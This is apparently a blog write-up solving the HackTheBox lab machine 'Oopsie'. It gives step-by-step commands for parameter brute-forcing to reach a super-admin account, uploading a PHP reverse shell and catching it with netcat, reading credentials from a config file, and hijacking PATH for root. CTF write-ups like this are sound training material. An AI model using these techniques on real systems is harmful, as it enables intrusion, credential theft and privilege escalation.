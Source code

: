 ```yaml
---
title: "HackTheBox Write-up&mdash;Oopsie"
date: 2021-03-22
---
```


This machine is found at IP `10.10.10.28`, and was quite fun to hack.

# The Short Version

1. Enumerate ports via `nmap -sC -sV 10.10.10.28`. Notice an HTTP server at port `80`;
2. Go to `http://10.10.10.28:80/cdn-cgi/login/`;
3. Log into the website using the username `admin` and the password `MEGACORP_4dm1n!!` from the previous (Archetype) box;
4. Clicking on the Uploads tab we see that we need to be a "super admin" to access this. Clicking on the Accounts tab, we see our account there. Intercepting the Accounts tab request in Burp Suite, we can brute-force the `id` value in the query parameter for this request, and at `id=30` we find a `super admin` account;
5. Using the super admin account's cookie parameters, now you can intercept the request to the Uploads tab and access it fully;
6. Using these super admin cookie parameters, you can upload a [reverse shell file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to the server, but be sure to change the [IP address in the script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php#L49) to yours (`tun0` on Linux; on my mac when connected to ethernet it was the `utun2` connection);
7. In a new terminal window, run `nc6 -nlvp 1234` (or just `nc` on Linux);
8. Now you want to, in a new terminal window, `curl http://10.10.10.28/uploads/php-reverse-shell.php`. This will activate the listener in your other window;
9. In the listener window, you now have a web shell. To turn it into a better terminal, run 
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
10. Run `cat /var/www/html/cdn-cgi/login/db.php` to get a user's login information: `robert`, whose password is `M3g4C0rpUs3r!`. We can login as Robert using `su robert`;
11. Run `cat $HOME/user.txt` to get the user flag!;
12. Run `cd /tmp; export PATH=/tmp:$PATH; echo '/bin/bash' > cat && chmod +x cat`. This will create a `cat` executable that takes precedence in `PATH`, but this executable will spawn a bash instance;
13. Now when we go to run `bugtracker`, a root shell will spawn;
14. Finally, run `PATH=$(getconf PATH) && cat /root/root.txt` to capture the root flag!

# The Long Version

I enumerate the box (which is apparently easy) and get the following.


```
$ bash common/nmap.sh oopsie
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 20:37 NZDT
Nmap scan report for oopsie (10.10.10.28)
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
